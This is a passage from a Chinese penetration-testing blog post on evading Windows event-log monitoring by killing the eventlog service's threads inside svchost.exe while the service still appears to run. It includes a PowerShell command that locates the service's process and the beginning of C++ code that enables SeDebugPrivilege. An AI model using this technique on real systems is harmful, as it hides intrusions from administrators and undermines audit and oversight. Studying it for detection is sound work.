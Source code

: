 ```yaml
---
layout: post
title: 利用API NtQueryInformationThread和I_QueryTagInformation实现对Windwos日志监控的绕过
---
```


---

## 0x00 前言
---

在上篇文章《渗透技巧——Windows日志的删除与绕过》中提到一个绕过Windows日志监控的思路：使用API NtQueryInformationThread和I_QueryTagInformation获取线程对应的服务，关闭对应日志记录功能的线程，能够破坏日志功能，并且Windows Event Log服务没有被破坏，状态仍为正在运行。本文将要对其详细介绍，分享使用c++在编写程序上需要注意的细节。

## 0x01 简介
---

本文将要介绍以下内容：

- 程序自身提权
- 遍历进程中的所有线程
- 根据线程tid，获取对应的进程pid
- 根据线程tid，获取对应的服务名称
- 结束线程

## 0x02 程序实现
---

开发工具： VS2012
开发语言： c++

### 1、定位eventlog服务对应进程svchost.exe的pid

powershell代码如下：

`Get-WmiObject -Class win32_service -Filter "name = 'eventlog'" | select -exp ProcessId`

通过回显能够找出进程svchost.exe的pid

### 2、程序自身提权，以管理员权限执行

因为进程svchost.exe为系统权限，所以对其线程进行操作也需要高权限，因此，程序需要先提升至管理员权限

提权至管理员权限的代码如下：

```
BOOL SetPrivilege()  
{  
    HANDLE hToken;   
    TOKEN_PRIVILEGES NewState;   
    LUID luidPrivilegeLUID;   
    if(!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken)||!LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &luidPrivilegeLUID))   
    {   
        printf("SetPrivilege Error\n");  
        return FALSE;   
    }   
    NewState.PrivilegeCount = 1;   
    NewState.Privileges[0].Luid = luidPrivilegeLUID;   
    NewState.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;   
    if(!AdjustTokenPrivileges(hToken, FALSE, &NewState, NULL, NULL, NULL))  
    {  
        printf("AdjustTokenPrivilege Errro\n");  
```